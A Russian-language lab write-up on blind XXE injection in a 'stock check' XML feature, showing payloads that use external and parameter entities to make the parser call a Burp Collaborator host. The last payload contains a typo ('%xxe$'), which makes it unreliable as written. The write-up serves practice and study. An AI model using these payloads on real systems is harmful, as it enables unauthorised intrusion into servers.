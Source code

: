 Эта лаборатория имеет функцию «проверка запаса», которая анализирует вход XML, но не отображает никаких неожиданных значений и блокирует запросы, содержащие регулярные внешние объекты.


## Дано

уязвимость в функцию «проверка запасов»
не отображает результат инъекции
блокирует запросы, содержащие регулярные внешние объекты.
## Задача

используйте внешнюю сущность, чтобы заставить XML -анализатор выпуска поиска DNS и HTTP -запрос для Burp Collaborator

# Решение

- запрос
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

- тест на dtd
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
	<!ENTITY xxe SYSTEM "http://5ouc2phowsd0prsgox25a7psljraf23r.oastify.com"> 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
схавал

- так как знаем уже о защите на выражения делаем вот так
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
	<!ENTITY % xxe SYSTEM "http://5ouc2phowsd0prsgox25a7psljraf23r.oastify.com"> 
	%xxe$
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```